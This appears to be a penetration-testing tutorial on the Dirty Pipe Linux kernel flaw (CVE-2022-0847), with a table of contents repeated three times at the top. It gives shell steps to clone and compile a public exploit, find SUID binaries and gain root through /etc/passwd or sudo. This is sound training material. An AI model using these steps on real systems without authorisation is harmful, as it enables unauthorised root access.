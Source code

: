 ## Table of Contents

  - [Table of Contents](#Table\of\Contents)
  - [Table of Contents](#Table\of\Contents)
      - [Download Dirty Pipe Exploit](#Download\Dirty\Pipe\Exploit)
      - [Verify Kernel Version](#Verify\Kernel\Version)
      - [Exploitation](#Exploitation)
      - [Exploitation](#Exploitation)

## Table of Contents

  - [Table of Contents](#Table\of\Contents)
      - [Download Dirty Pipe Exploit](#Download\Dirty\Pipe\Exploit)
      - [Verify Kernel Version](#Verify\Kernel\Version)
      - [Exploitation](#Exploitation)
      - [Exploitation](#Exploitation)

## Table of Contents

- [Download Dirty Pipe Exploit](#Download\Dirty\Pipe\Exploit)
      - [Verify Kernel Version](#Verify\Kernel\Version)
      - [Exploitation](#Exploitation)
      - [Exploitation](#Exploitation)

A vulnerability in the Linux kernel, named [Dirty Pipe](https://dirtypipe.cm4all.com/) ([CVE-2022-0847](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0847)), allows unauthorized writing to root user files on Linux. Technically, the vulnerability is similar to the [Dirty Cow](https://dirtycow.ninja/) vulnerability discovered in 2016. All kernels from version `5.8` to `5.17` are affected and vulnerable to this vulnerability.


In simple terms, this vulnerability allows a user to write to arbitrary files as long as he has read access to these files. It is also interesting to note that Android phones are also affected. Android apps run with user rights, so a malicious or compromised app could take over the phone.

This vulnerability is based on pipes. Pipes are a mechanism of unidirectional communication between processes that are particularly popular on Unix systems. For example, we could edit the `/etc/passwd` file and remove the password prompt for the root. This would allow us to log in with the `su` command without the password prompt.

To exploit this vulnerability, we need to download a [PoC](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits) and compile it on the target system itself or a copy we have made.

#### Download Dirty Pipe Exploit

```shell
cry0l1t3@nix02:~$ git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
cry0l1t3@nix02:~$ cd CVE-2022-0847-DirtyPipe-Exploits
cry0l1t3@nix02:~$ bash compile.sh
```

After compiling the code, we have two different exploits available. The first exploit version (`exploit-1`) modifies the `/etc/passwd` and gives us a prompt with root privileges. For this, we need to verify the kernel version and then execute the exploit.

#### Verify Kernel Version
```bash
uname -r 
```

#### Exploitation
```shell
cry0l1t3@nix02:~$ ./exploit-1
```

With the help of the 2nd exploit version (`exploit-2`), we can execute SUID binaries with root privileges. However, before we can do that, we first need to find these SUID binaries. For this, we can use the following command:

```bash
find / -perm -4000 2>/dev/null
```

Then we can choose a binary and specify the full path of the binary as an argument for the exploit and execute it.

#### Exploitation

```shell
cry0l1t3@nix02:~$ ./exploit-2 /usr/bin/sudo
```



